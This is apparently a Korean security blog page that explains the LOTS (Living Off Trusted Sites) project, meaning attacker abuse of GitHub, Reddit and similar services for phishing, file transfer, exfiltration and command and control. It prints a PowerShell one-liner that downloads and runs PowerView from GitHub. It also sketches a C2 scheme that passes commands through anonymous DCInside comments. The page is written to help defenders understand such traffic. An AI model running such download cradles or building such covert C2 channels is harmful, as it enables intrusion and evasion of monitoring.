 # Living Off Trusted Sites (LOTS)

![](../.gitbook/assets/lots.drawio.png)

LOTS (Living Off Trusted Sites) 는 공격자들이 자주 사용하는 정상적인 웹 서비스들을 모아놓은,  LOLBINS과도 비슷한 성격의 프로젝트다. 공격자들은 구글 드라이브, 깃허브, 레딧, 노션 과 같은 정상적인 웹 서비스들을 이용해 명령을 수행하거나, 파일을 업로드/다운로드 하거나, 피싱 등의 공격을 실행할 수 있다. 공격자와 피해자 호스트 간의 트래픽이 C2 서버나, 공격자의 도메인이나, 수상한 IP 주소를 경유 하는 것이 아니라, 매우 유명한 웹 서비스들을 거치기 때문에 블루팀의 입장에서 볼 때 네트워크 트래픽의 이상한 점을 느끼기가 어렵다. 때문에 공격 중 네트워크 트래픽을 숨기기 위해 공격자들은 LOTS에 등록되어 있는 웹사이트들을 이용한다.&#x20;

예를 들어 공격자가 피해자 호스트를 장악 한 뒤, 정보 수집과 권한 상승 공격을 위해 추가 파워쉘 스크립트를 로드해서 공격한다고 가정해보자. 공격자는 이 파워쉘 스크립트를 공격자의 도메인에서 가져오는 것이 아니라, 깃허브에서 다음과 같이 가져온다.&#x20;

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/situational_awareness/network/powerview.ps1')
```

엔드포인트 보안을 잠시 제외하고, 네트워크적으로만 따져보자. 블루팀의 입장에서 보면 한 컴퓨터가 깃허브로 가서 공개되어 있는 리포의 파워쉘 스크립트를 가져오는 것으로 밖에 안보인다. 얼마나 많은 개발자들과 시스어드민들이 회사에서 매일매일 깃허브를 이용하는가? 이렇게만 보면 이 네트워크 트래픽은 정상적으로 보인다.&#x20;

공격자들은 LOTS를 이용해서 정상적인 웹 서비스를 공격에 이용할 수 있다. LOTS의 이용 방법은 다양하다:&#x20;

1. 피싱&#x20;
2. Command and Control
3. 파일 업로드/다운로드&#x20;
4. 데이터 유출 (Data Exfiltration)

이 중 피싱, 파일업로드/다운로드, 데이터 유출은 간단한 개념인 것 같다. 하지만 정상적인 웹 서비스를 C2 (Command and Control) 에 이용한다는 것은 어떤 의미일까?&#x20;

### LOTS 와 C2&#x20;

우리나라에는 "DCInside" 라는 커뮤니티가 웹사이트가 있다. 이 웹사이트의 가장 큰 특징이자 장점 중 하나는 바로 누구나 사용자 인증 없이 글을 읽고, 쓰고, 댓글을 쓸 수 있다는 점이다. 다음의 시나리오를 생각해보자.&#x20;

1. 쓰여진지 2년 정도 지났지만 댓글 작성한 글을 찾아낸다.&#x20;
2. 공격자 호스트에서는 해당 글에 `[1]execute: powershell.exe -command "whoami"` 라는 댓글을 남긴다.&#x20;
3. 피해자 호스트에서 돌아가는 비컨은 해당 글의 URL로 방문해 댓글을 읽고 파싱을 진행한다. \[1]은 첫번째 명령, execute 는 "실행" 명령, `powershell.exe -command "whoami"` 는 실행할 명령이다. 명령을 실행한뒤 `chois computer - Administrator` 라는 값을 반환한다.&#x20;
4. 피해자 호스트는 `chois computer - Administrator` 라는 반환된 값을 다시 똑같은 글에 댓글로 남긴다. `[bot]result: chois computer - Administrator`&#x20;
5. 공격자 호스트에서 다시 해당 글을 방문해 댓글로 명령이 실행된 결과를 확인한다.&#x20;

이렇듯 특정 웹사이트를 통해서 공격자 호스트는 피해자 호스트에게 명령을 내리고, 결과를 반환받을 수 있다. 피해자 호스트의 블루팀의 입장에서 볼때는 그저 dcinside.com 의 랜덤한 글을 방문하는 것 밖에 보이지 않을 것이다.&#x20;

이제 위에서 나온 PoC에다가 다음의 것들을 추가해보면...&#x20;

* 명령 및 결과 반환 암호화 적용&#x20;
* 자체 API 개발로 공격자 서버와 피해자 비컨이 모두 dcsinside를 더 편하게 이용하도록 함&#x20;
* 각 피해자 비컨들마다 새로운 글을 지정함. 100개의 피해자 호스트가 있다면 100개의 다른 글에 댓글을 남기고, 공격자 서버는 해당 글들을 방문해 결과를 확인하는 식으로 스케일링&#x20;
* (졸업 프로젝트로 사용하고 교수님에게 칭찬 받기)&#x20;

실제로 위의 내용과 비슷하게 Reddit 커뮤니티를 사용하는 RedViper 오픈소스 프로젝트가 공개됐던적도 있고, 디스코드 (Discord)를 이용하는 C2 서버 프로젝트도 있다.&#x20;



### 레퍼런스&#x20;

{% embed url="https://lots-project.com/" %}
